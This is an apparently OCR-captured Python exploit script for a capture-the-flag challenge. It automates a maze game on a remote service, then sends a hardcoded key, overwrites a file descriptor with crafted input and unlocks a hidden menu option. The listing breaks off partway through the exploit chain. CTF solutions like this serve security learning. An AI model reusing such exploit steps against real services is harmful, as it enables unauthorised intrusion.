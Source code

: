 ```python wwtw_exp.py
					return (y,x)
			y+=1
		x+=1
		y=0
	return (-1,-1)


t = remote(ip, port)

# start playing the game
for test in range(1000):
	s = t.readuntil(": ")
	if "KEY" in s:
		print s
		break
	MAP = getMap(s)
	GOAL=(-1,-1)
	ME=(-1,-1)
	GOAL=getChar(['E','T'],MAP)
	print GOAL
	ME=getChar(['<','>','V','^'],MAP)
	print ME

	drct = []
	if( ME[0] - GOAL[0] > 0 ):
		if( ME[0] > 0 and MAP[ME[1]][ME[0]-1] !='A'):
			drct+='a'
	elif( ME[0] - GOAL[0] < 0 ):
		if( ME[0] < 19 and MAP[ME[1]][ME[0]+1] !='A'):
			drct+='d'
	if( ME[1] - GOAL[1] > 0 ):
		if( ME[1] > 0 and MAP[ME[1]-1][ME[0]] !='A'):
			drct+='w'
	elif( ME[1] - GOAL[1] < 0 ):
		if( ME[1] < 19 and MAP[ME[1]+1][ME[0]] !='A'):
			drct+='s'
	if drct == [] :
		if ME[0] == GOAL[0] :
			if ME[0] > 0 :
				drct+='a'
			else:
				drct+='d'
		elif ME[1] == GOAL[1] :
			if ME[1] > 0 :
				drct+='w'
			else:
				drct+='s'
			
	print drct
	t.send(drct[0]+'\n')

# Done playing, time to send TARDIS KEY

log.info("sending tardis key...")
t.send("UeSlhCAGEp\n")
print t.recvuntil("Selection: ")
log.info("overwriting fd...")
t.send("11111111\x00\n")
print t.recvuntil("Selection: ")
time.sleep(2) # wait for 2 second so the service's able to call sub_BCB()
log.info("enable choice 3...")
t.send("m+YU\n") # m+YU = 1431907181
t.send("1\n") # turn on the TARDIS console
```